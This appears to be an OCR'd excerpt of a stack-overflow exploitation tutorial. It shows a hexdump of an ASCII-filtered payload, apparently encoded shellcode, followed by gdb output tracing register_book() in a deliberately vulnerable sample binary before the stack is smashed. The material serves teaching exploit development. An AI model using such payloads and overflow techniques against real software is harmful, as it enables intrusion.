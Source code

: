 ```text
00000090  42 42 72 42 2d 6e 4b 54  4b 50 2d 68 4f 25 68 2d  |BBrB-nKTKP-hO%h-|
000000a0  68 25 25 68 2d 50 33 34  53 50 2d 4d 75 68 65 2d  |h%%h-P34SP-Muhe-|
000000b0  34 7a 7a 25 50 2d 35 32  32 32 2d 25 5f 32 32 2d  |4zz%P-5222-%_22-|
000000c0  25 76 37 4a 50 2d 59 59  59 59 2d 59 59 59 59 2d  |%v7JP-YYYY-YYYY-|
000000d0  4e 56 4d 44 50 0a                                 |NVMDP.|


Reading symbols from ./vuln_ascii_filter_sample...(no debugging symbols found)...done.
Breakpoint 1 at 0x8049364s

```


Then, the demo break in the `register_book()` function. The following
`gdb` output is displayed and shows the return address of the
`register_book()` function on the stack before the stack smaching.


```text

[demo exec wrapper] Executing ./vuln_ascii_filter_sample


Breakpoint 1, 0x08049364 in main ()
Breakpoint 2 at 0x8049255
Breakpoint 3 at 0x80492b5
Hardware assisted breakpoint 4 at 0xffffdc24
Hardware assisted breakpoint 5 at 0xffffdc91
Hardware assisted breakpoint 6 at 0xffffdcdc
   0x804937e <main+26>: call   0x80491b6
   0x8049383 <main+31>: test   eax,eax
   0x8049385 <main+33>: jns    0x80493a0
[0xffffdc24] @b_info.comment
[0xffffde24] @b_info.book_ref
[+] Enter a book reference:

Breakpoint 2, 0x08049255 in register_book ()
0xffffdc10:     0xffffde24      0x0000002f      0xf7f9d580      0x080491c5
0xffffdc20:     0x83743139      0x00000000      0x00000000      0x00000000
0xffffdc30:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc60:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc80:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdc90:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdca0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdcb0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdcc0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdcd0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdce0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdcf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd30:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd60:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd80:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdd90:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffdda0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddb0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffddc0:     0x00000000      0x00000000      0x00000000      0x00000000
```